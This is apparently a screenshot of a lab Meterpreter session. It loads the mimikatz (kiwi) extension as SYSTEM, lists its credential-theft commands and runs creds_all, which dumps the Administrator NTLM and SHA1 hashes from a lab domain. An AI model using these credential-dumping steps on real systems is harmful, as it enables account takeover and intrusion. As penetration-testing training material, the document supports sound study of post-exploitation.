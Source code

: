meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 





meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > ?

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain         NTLM                              SHA1
--------       ------         ----                              ----
Administrator  ATTACKDEFENSE  e3c61a68f1b89ee6c8ba9507378dc88d  fa62275e30d286c09d30d8fece82664eb34323ef
